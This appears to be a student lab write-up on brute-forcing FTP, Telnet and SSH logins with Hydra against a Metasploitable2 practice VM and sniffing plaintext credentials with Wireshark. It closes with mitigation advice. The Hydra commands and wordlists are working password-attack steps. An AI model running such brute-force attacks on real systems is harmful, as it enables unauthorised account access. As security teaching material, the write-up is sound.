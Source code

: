 

# 💻 Labwork 1: Brute Force and Sniffing

---
## 🎯 Objectives

- Understand how brute-force attacks work on common network services (FTP, Telnet, SSH).
- Practice using tools like Hydra for password attacks.
- Learn how to use Wireshark to analyze network traffic.
- Identify insecure protocols that transmit data in plaintext.
- Propose secure alternatives and mitigation strategies.

## 🧰 Tools Used
- **Hydra** – for performing brute force attacks  
- **Wireshark** – for capturing and analyzing network traffic  
- **Kali Linux** – used as the attacker machine  
- **Metasploitable2** – vulnerable virtual machine  
- **FTP, Telnet, SSH** – services used for login and analysis  

---

## 📍 Target IP Enumeration

1. Run the following command on **Kali Linux** to find the Metasploitable2 IP:
   ```bash
   netdiscover
or:
   ```bash
   nmap -sn 192.168.154.0/24
   ```
or:

Use this command on Metasploitable2:
   ```bash
   ifconfig
   ```
# 1. Enumeration of Usernames🥐

Initial usernames used for brute force attacks were manually prepared in a file usernames.txt:
1.1 Prepare a text file with potential usernames:

    vim username.txt

- msfadmin
- user
- admin
- root
- test
- guest

1.2 Prepare a text file with potential passwords:

      vim password.txt

- msfadmin
- user
- admin
- root
- test
- guest


# 2. Brute Force Attacks🥖

**2.1 FTP**
    - Tool: Hydra
    - Command Used:
        
          hydra -L usernames.txt -P passwords.txt ftp://192.168.154.133

Result: Successful login found – msfadmin:msfadmin

---

**2.2 Telnet**
    - Tool: Hydra
    - Command Used:
       
        hydra -l msfadmin -P passwords.txt telnet://192.168.154.133

Result: Successful login – msfadmin:msfadmin

---

**2.3 SSH**
    - Tool: Hydra
    - Command Used:
        
        hydra -L usernames.txt -P passwords.txt ssh://192.168.154.133

Problem: Hydra (or the SSH client it's using) doesn't support the older key exchange algorithms used by the Meta2 machine, which is very outdated



# 3. Sniffing Network Traffic🍖

**3.1 Start Wireshark on Kali**

a) Open Wireshark

b) Select the active network interface (e.g., eth0 or ens33).

c) Start capturing

---

**3.2 FTP Login Traffic Analysis**

a) Connect using:

    ftp 192.168.154.133

b) Login with: msfadmin:msfadmin

c) In Wireshark, use filter:

    ftp 

---
**3.3 Telnet Login Traffic Analysis**

a) Connect using 

    telnet 192.168.154.133

b) Login with: msfadmin:msfadmin

c) In Wireshark, use filter:

    telnet



# 4.Problems Encountered🍕

| Protocol | Problem | Solution |
|----------|---------|----------|
|FTP	   |None	 |N/A
|Telnet|	Service was off initially	|Enabled Telnet on Metasploitable2
|SSH	|Hydra connection failed due to key mismatch	|

# 5.Mitigation Strategies🍥

| Protocol | Vulnerability | Secure Alternative	| Why it’s better|
|-----------|-------------|---------------------|---------------|
|FTP	|Sends credentials in plaintext	|SFT2P / FTPS|	Encrypts file transfer data and credentials
|Telnet|	Transmits all in plaintext|	SSH	|SSH encrypts communication
|SSH	|Still brute-forceable	|Use key-based login, strong passwords	|Prevents brute force access

# ✅ Summary
- FTP and Telnet are insecure protocols that transmit credentials in plaintext.
- Hydra can easily brute-force weak credentials.
- SSH is secure but can still be targeted using brute-force unless hardened.
- Use tools like Wireshark to confirm data security over the network.
- Always replace insecure services with encrypted alternatives like SSH or FTPS.
- Apply proper access control, firewalls, and monitoring to reduce attack surfaces.

# 📚 References
Hydra GitHub Repository

Wireshark Official Site

Metasploitable2 Documentation

Kali Linux Tools Listing

OpenSSH Key Exchange Info
